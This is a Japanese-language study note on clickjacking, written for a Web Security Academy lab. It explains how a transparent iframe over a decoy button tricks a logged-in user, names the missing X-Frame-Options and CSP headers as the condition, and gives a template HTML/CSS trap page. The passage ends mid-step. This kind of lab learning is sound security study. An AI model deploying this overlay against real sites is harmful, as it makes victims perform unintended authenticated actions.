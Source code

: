 ## 脆弱性の説明
- 攻撃者が自分自身で作ったwebサイトにユーザを誘導し、透明化してある正規のサイトの下に攻撃者が作ったボタンを配置する。そうすることで、ユーザはそのボタンを押すが、透明化してある正規のサイトのボタンが押されることによって、ユーザが意図しないリクエストを行ってしまう。

## 攻撃の条件
- 攻撃者が実行させようと使用している処理にログイン後のセッションIDや、CSRFトークンが必要な場合はユーザが事前にそれらの値を持っていることが前提となる。
- サーバ側の実装で別ドメインからの繊維が可能であること。具体的には以下のレスポンスヘッダーが実装されてない場合、悪用できる可能性がある。
```markdown
1. レスポンスヘッダにX-Frame-Optionsヘッダが存在すること

2. レスポンスヘッダまたはレスポンスボディにContent-Security-Policyヘッダ相当の要素が存在すること
```

## 手順 ※一度削除すると20分で何もできなくなるので改めて記載する。
1. 被害者操作:ログインをする。
![[Pasted image 20251002234913.png]]
2. 罠サイトの構築
```html
<style>
    iframe { /** ←これが実際のページ **/
        position:relative;
        width:$width_value; /** 横幅を設定 **/
        height: $height_value; /** 立幅を設定 **/
        opacity: $opacity; /** 明度の設定。ページ作成時は0.1で実際に公開するときは0.0001にする。 **/
        z-index: 2;
    }
    div { /** ←自作するボタン(最背面に設置を行う) **/
        position:absolute;
        top:$top_value; /** ←高さ調整 **/
        left:$side_value;/** ←横幅調整 **/
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"> /** ターゲットのサイト **/
</iframe>
```

3. 調整時の実際のがめんは